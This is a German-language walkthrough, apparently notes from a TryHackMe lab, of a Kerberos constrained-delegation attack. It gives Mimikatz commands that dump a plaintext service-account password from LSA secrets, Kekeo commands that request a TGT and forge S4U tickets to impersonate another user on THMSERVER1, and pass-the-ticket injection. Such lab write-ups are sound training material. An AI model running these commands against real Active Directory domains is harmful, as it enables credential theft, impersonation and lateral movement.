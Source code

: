 >C:\Tools\mimikatz_trunk\x64\mimikatz.exe

---
**(Um die secrets aus der Registrierungsstruktur zu dumpen, müssen wir uns als SYSTEM-Benutzer ausgeben)**
>token::elevate 

(Mimikatz interagiert mit der Registrierungsstruktur, um die Klartext-Anmeldeinformationen abzurufen)
>lsadump::secrets 


OUTPUT
> Secret  : _SC_thmwinauth / service 'thmwinauth' with username : svcIIS@za.tryhackme.loc
cur/text: Password1@
---

Wir haben also jetzt das Passwort des Users svcIIS. Damit können wir eine Kerberos Delegation Attack starten, die wir ja schon bereits kennengelernt haben.
Mit Kekeo erstellen wir uns die Tiickets und mit Mimikatz injezieren wir sie in unseren Speicher um uns dann als svcIIS User auszugeben.

Wir werden Kekeo verwenden, um unsere Tickets zu generieren, und dann Mimikatz verwenden, um diese Tickets in den Speicher zu laden. Beginnen wir mit der Generierung der Tickets
>C:\Tools\kekeo\x64\kekeo.exe

Wir müssen zunächst ein TGT generieren, mit dem Tickets für die HTTP- und WSMAN-Dienste generiert werden können
>tgt::ask /user:svcIIS /domain:za.tryhackme.loc /password:Password1@

OUTPUT 
  > Ticket in file 'TGT_svcIIS@ZA.TRYHACKME.LOC_krbtgt~za.tryhackme.loc@ZA.TRYHACKME.LOC.kirbi' 
----
Da wir nun über das TGT für das Konto verfügen, das die Delegierung durchführen kann, können wir TGS-Anfragen für das Konto fälschen, das wir imitieren möchten. Wir müssen dies sowohl für HTTP als auch für WSMAN durchführen, damit wir eine PSSession auf THMSERVER1 erstellen können
>tgs::s4u /tgt:TGT_svcIIS@ZA.TRYHACKME.LOC_krbtgt~za.tryhackme.loc@ZA.TRYHACKME.LOC.kirbi /user:t1_trevor.jones /service:http/THMSERVER1.za.tryhackme.loc

>tgs::s4u /tgt:TGT_svcIIS@ZA.TRYHACKME.LOC_krbtgt~za.tryhackme.loc@ZA.TRYHACKME.LOC.kirbi /user:t1_trevor.jones /service:wsman/THMSERVER1.za.tryhackme.loc

OUTPUT
  > Ticket in file 'TGS_t1_trevor.jones@ZA.TRYHACKME.LOC_http~THMSERVER1.za.tryhackme.loc@ZA.TRYHACKME.LOC.kirbi' 
  > Ticket in file 'TGS_t1_trevor.jones@ZA.TRYHACKME.LOC_wsman~THMSERVER1.za.tryhackme.loc@ZA.TRYHACKME.LOC.kirbi' 
---

Da wir nun die beiden TGS-Tickets haben, können wir sie mit Mimikatz importieren
>privilege::debug

>kerberos::ptt TGS_t1_trevor.jones@ZA.TRYHACKME.LOC_wsman~THMSERVER1.za.tryhackme.loc@ZA.TRYHACKME.LOC.kirbi

>kerberos::ptt TGS_t1_trevor.jones@ZA.TRYHACKME.LOC_http~THMSERVER1.za.tryhackme.loc@ZA.TRYHACKME.LOC.kirbi
